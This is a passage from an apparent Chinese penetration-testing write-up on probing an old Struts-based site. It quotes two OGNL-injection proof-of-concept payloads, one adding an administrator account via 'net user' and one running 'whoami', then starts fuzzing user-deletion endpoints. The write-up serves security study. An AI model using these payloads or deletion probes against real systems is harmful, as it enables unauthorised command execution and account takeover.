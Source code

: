 ​	通过错误信息，知道采用了struts框架，这里只知道struts框架比较出名的RCE漏洞是通过OGNL表达式注入达到目的。
这里试了几个以前别人打过的OGNL表达式传给id：

```
#2013年 FreeCms 命令执行 POC:

(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('net user admin admin /add'))(meh)&z[(user.loginname)('meh')]=true
```

```
#2015年 山西运城学院struts2 POC【这里看是不是开启了debug】:

?debug=command&expression=new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder({'whoami'}).start().getInputStream())).readLine()

```

但后面才知道，方向打偏了，该资产并没有采用struts2，可以看上面的图，

- 查看返回堆栈：如果全是 org.apache.struts.action 开头，那是 Struts1
- 如果出现 org.apache.struts2.interceptor, xwork 等关键词，是 Struts2
  而**struts1**是本身**不支持OGNL表达式**

但是同时也知道了这个站的技术栈确实很老了。

### 2.接口FUZZ构造

仔细观察这个接口：

```
/productBase.do?method=delete&id=
```

尝试构造了：

```
/user.do?method=deleteUser&id=
```

先是提示 删除失败

<img src=".\pictures\image-20250521142038044.png" alt="image-20250521142038044.png" style="zoom:100%;" />
